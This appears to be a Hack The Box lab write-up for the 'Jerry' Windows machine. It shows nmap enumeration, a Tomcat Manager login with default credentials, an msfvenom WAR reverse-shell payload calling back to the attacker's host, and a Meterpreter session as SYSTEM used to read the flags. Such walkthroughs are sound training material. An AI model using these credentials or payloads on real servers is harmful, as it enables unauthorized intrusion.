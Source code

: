 ```yaml
---
layout: single
title: "Jerry - Windows HacktheBox Writeup"
categories:
  - Writeup
tags:
  - Easy
  - Windows
  - HackTheBox
classes:
  - wide
---
```


>"*Although Jerry is one of the easier machines on Hack The Box, it is realistic as Apache Tomcat isoften found exposed and configured with common or weak credentials.*"

 *Hack The Box* - Jerry synopsis

**ENUMERATION**

Nmap results:
```
PORT     STATE SERVICE VERSION

8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88

```
When checking out the website, we see a default install of Tomcat. 
Exploring it, we see pages such as 'server status', 'manager app' and 'host manager'. Clicking on manager app, the website prompts us with a login option. Let's cancel it for now and keep looking. 
Cancelling the request brings us to a 401 unauthorised page. 
The 401 page details how to add users. The example uses default creds. 
We should try these, just in case they haven't been changed. 

Reloading the page, we can enter the default creds (tomcat:s3cret). It works!

We see a Web Application Manager. Looking further down the page, we see a section where the user can deploy WAR files. 
Let's use this to try and get a shell. 

**FOOTHOLD / EXPLOITATION**

>"*A WAR file (Web Application Resource or Web application ARchive) is a file used to distribute a collection of JAR-files, JavaServer Pages, Java Servlets, Java classes, XML files, tag libraries, static web pages (HTML and related files) and other resources that together constitute a web application.*"

Using Msfvenom, we can craft a nice payload containing our reverse windows shell. Which we'll catch with Meterpreter. 
```
$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.8 LPORT=4444 --format war -o hellothere.war
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of war file: 2469 bytes
Saved as: hellothere.war

```
Using this payload, we can upload it to the website to then be able to activate the shell by visiting the file. 
However to activate it, we need to know the name of it. So we need to quickly unzip the file and find out.   

```
$ unzip hellothere.war                    
Archive:  hellothere.war
  inflating: META-INF/MANIFEST.MF    
   creating: WEB-INF/
  inflating: WEB-INF/web.xml         
  inflating: zzponqiftq.jsp 
```
*NB: We can also use the command jar to list the contents of the war.* 

Going back to meterpreter, we see that a session has opened once we've clicked on the payload and set the right path. 
```
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp 
payload => windows/x64/meterpreter/reverse_tcp

msf6 exploit(multi/handler) > set lhost tun0
lhost => 10.10.14.8

msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.8:4444 
[*] Sending stage (200262 bytes) to 10.10.10.95
[*] Meterpreter session 1 opened (10.10.14.8:4444 -> 10.10.10.95:49192) at 2021-09-25 17:30:39 +0100

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > shell
```
Using the 'getuid' command, we also find out we are NT AUTHORITY\SYSTEM. This means we have full system own. We just need to look for the flags now. 

```
C:\>cd Users\Administrator\Desktop\flags
cd Users\Administrator\Desktop\flags

C:\Users\Administrator\Desktop\flags> dir
dir
 Directory of C:\Users\Administrator\Desktop\flags

06/19/2018  07:09 AM    <DIR>          .
06/19/2018  07:09 AM    <DIR>          ..
06/19/2018  07:11 AM                88 2 for the price of 1.txt
               1 File(s)             88 bytes
               2 Dir(s)  27,594,592,256 bytes free

C:\Users\Administrator\Desktop\flags> type 2*
type 2*

2 for the price of 1.txt


user.txt
7004dbce***********************

root.txt
04a8b36e***********************
```
And there they are both! The User flag and the Root flag.
